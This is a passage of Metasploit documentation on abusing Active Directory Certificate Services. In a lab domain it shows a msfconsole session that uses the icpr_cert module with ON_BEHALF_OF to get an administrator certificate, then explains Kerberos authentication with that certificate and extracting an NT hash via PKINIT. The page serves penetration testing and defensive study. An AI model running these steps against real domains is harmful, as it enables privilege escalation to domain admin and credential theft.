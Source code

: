 Next, the certificate is used in conjunction with the `PFX` and `ON_BEHALF_OF` options to issue a certificate compatible
with Kerberos as the privileged user (previously `ALT_UPN`).

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > unset ADD_CERT_APP_POLICY 
Unsetting ADD_CERT_APP_POLICY...
msf6 auxiliary(admin/dcerpc/icpr_cert) > unset ALT_UPN 
Unsetting ALT_UPN...
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF COLLALABS1\\administrator
ON_BEHALF_OF => COLLALABS1\\administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/normaluser/.msf4/loot/20241009172714_default_172.30.239.85_windows.ad.cs_659672.pfx
PFX => /home/normaluser/.msf4/loot/20241009172714_default_172.30.239.85_windows.ad.cs_659672.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: administrator@collalabs1.local
[*] 172.30.239.85:445 - Certificate UPN: administrator@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20241009172817_default_172.30.239.85_windows.ad.cs_427087.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally, *this* certificate can be used to authenticate to Kerberos with the `kerberos/get_ticket` module.

# Authenticating With A Certificate
Metasploit supports authenticating with certificates in a couple of different ways. These techniques can be used to take
further actions once a certificate has been issued for a particular identity (such as a Domain Admin user).

## Authenticating To Kerberos
Certificates can be used to authenticate to Kerberos using the [[kerberos/get_ticket|kerberos/get_ticket.md]] module by
specifying the `CERT_FILE` option. Take the certificate file from the last stage of the attack and set it as the
`CERT_FILE`. Certificates from Metasploit do not require a password, but if the certificate was generated from a source
that added one, it can be specified in the `CERT_PASSWORD` option. Set the `RHOST` to the Domain Controller which is the
Key Distribution Center (KDC) for the Active Directory environment.

### Getting An NT Hash
Certificates can be used to obtain the NTLM hash of an account with the PKINIT extension. To request the hash, set the
action to `GET_HASH`.
